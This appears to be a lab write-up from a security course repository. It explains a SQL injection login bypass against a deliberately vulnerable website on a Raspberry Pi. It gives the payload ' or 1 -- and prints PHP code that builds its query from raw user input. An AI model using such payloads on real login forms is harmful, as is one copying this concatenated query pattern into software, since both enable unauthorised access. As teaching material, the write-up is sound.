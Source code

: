 # Vulnerable Website: SQL Injection

To perform the SQL Injection attack on the vulnerable website, follow these steps:

1. Connect to the IP address of the Raspberry Pi (in our case, 10.10.1.231) on port 51130.

2. On the login page, follow these instructions:

   - In the "Username" field, enter the following string:
     ```
     ' or 1 --
     ```
   - Leave the "Password" field empty or enter any value.

    <div align="center">
        <img src="https://github.com/BenIlies/CS394X/raw/main/Vulnerable-Website/Attacks/SQL-INJECTION/login-page.PNG" alt="Database Dumping">
    </div>

3. Submit the login form. The SQL Injection payload `' or 1 --` manipulates the underlying SQL query, bypassing the authentication mechanism and tricks the system into authenticating the user successfully.

4. Behind the scenes, the vulnerable code snippet executes the following query:

   ```php
   $id = $_POST['id'];
   $pw = $_POST['pw'];
   $query = "SELECT id FROM user WHERE id = '{$id}' AND pw = '{$pw}'";
   $result = $db->query($query);
   if ($result == false) {
       $txt = "Login Error";
   } else {
       print("Login Successful");
   }
    ```

    The vulnerability lies in the way the code constructs the SQL query. By injecting the payload `' or 1 --`, the SQL statement becomes:

   ```php
    $query = "SELECT id FROM user WHERE id = '' or 1 -- AND pw = '{$pw}'";
    ```

    The modified query includes the injected condition `or 1`, which always evaluates to true. As a result, the authentication check is bypassed, and the system considers the login successful. Upon successful login, the vulnerable website redirects the attacker to the `control.php` page, granting them access to open the vault door.

    <div align="center">
        <img src="https://github.com/BenIlies/CS394X/raw/main/Vulnerable-Website/Attacks/SQL-INJECTION/control-page.PNG" alt="Database Dumping">
    </div>
